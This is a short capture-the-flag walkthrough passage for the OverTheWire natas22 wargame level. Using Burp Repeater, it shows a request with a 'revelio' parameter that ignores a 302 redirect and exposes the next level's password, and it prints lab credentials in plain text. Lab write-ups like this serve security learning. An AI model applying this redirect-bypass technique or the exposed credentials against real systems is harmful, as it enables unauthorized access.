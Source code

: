 Trying with Burp. The request:

```
GET /?revelio=1 HTTP/1.1
Host: natas22.natas.labs.overthewire.org
User-Agent: [UNDISCLOSED]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyMjpkOHJ3R0JsMFhzbGczYjc2dWgzZkViU2xuT1VCbG96eg==
Connection: keep-alive
Cookie: PHPSESSID=geosrhe1qijrg261strl2fgfat
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i
```

passed to Repeater and sent, gives:

```
HTTP/1.1 302 Found
Date: Sun, 20 Oct 2024 14:52:57 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /
Content-Length: 1028
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8



<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

